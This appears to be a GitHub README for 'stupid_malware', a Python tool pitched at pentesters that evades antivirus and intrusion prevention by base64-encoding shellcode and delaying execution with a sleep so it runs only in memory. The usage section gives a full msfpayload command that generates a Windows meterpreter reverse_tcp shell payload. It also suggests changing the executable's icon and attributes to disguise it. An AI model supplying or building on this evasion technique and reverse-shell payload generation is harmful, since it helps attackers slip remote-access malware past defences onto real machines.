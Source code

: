 stupid_malware
==============

## SUMMARY

Python malware for pentesters that bypasses most antivirus (signature and heuristics) and IPS using sheer stupidity. Uses cutting-edge base64 encoding and the newfangled "sleep" method to wait until heuristics detaches to execute all evil activity. Code on disk is 100% benign and evil code never leaves memory. Compile with py2exe or pyinstaller.

## USAGE

Package generation:
```
$ msfpayload windows/meterpreter/reverse_tcp LPORT=4444 LHOST=127.0.0.1 R | base64 > evil.b64
```
If you do so please, change the icon and attributes with ResHacker
## CHANGELOG
* v0.2 - Added base64 decoding to bypass crappy IPS
* v0.3 - Added a sleep(31) statement before executing shellcode to fuck with heuristics

## DISCLAIMER

Don't be an asshole. I take no responsibility for how you use this. It's not even that cool so you should probably use someone else's code.
